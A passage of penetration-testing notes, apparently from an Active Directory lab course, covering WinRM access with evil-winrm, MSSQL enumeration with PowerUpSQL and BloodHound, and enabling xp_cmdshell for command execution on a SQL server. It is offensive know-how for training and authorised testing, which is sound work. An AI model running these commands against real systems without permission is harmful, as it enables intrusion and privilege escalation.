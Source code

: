2. **From Linux**:
   - Install **evil-winrm**:
     ```bash
     gem install evil-winrm
     ```
   - Establish a WinRM session:
     ```bash
     evil-winrm -i <IP> -u <User> -p <Password>
     ```
   **Example**:
   ```bash
   evil-winrm -i 10.129.201.234 -u forend
   ```



## **MSSQL Server Exploitation**

### **Purpose**
- SQL servers often host sensitive data or provide admin-level access that can be exploited for privilege escalation.

### **Enumeration**
#### Using PowerUpSQL
- Import the module and enumerate SQL instances:
  ```powershell
  Import-Module .\PowerUpSQL.ps1
  Get-SQLInstanceDomain
  ```
  **Example Output**:
  ```
  ComputerName: ACADEMY-EA-DB01
  Instance: ACADEMY-EA-DB01,1433
  DomainAccount: damundsen
  ```

#### Using BloodHound
- Search for users with **SQL Admin rights**:
  - Use the Cypher query:
    ```cypher
    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) 
    MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) 
    RETURN p2
    ```

### **Exploitation**
1. **From Windows**:
   - Authenticate and run SQL queries:
     ```powershell
     Get-SQLQuery -Verbose -Instance "<Instance>" -username "<Username>" -password "<Password>" -query 'SELECT @@VERSION'
     ```
   - Enable `xp_cmdshell` for command execution:
     ```sql
     enable_xp_cmdshell
     xp_cmdshell whoami /priv
     ```
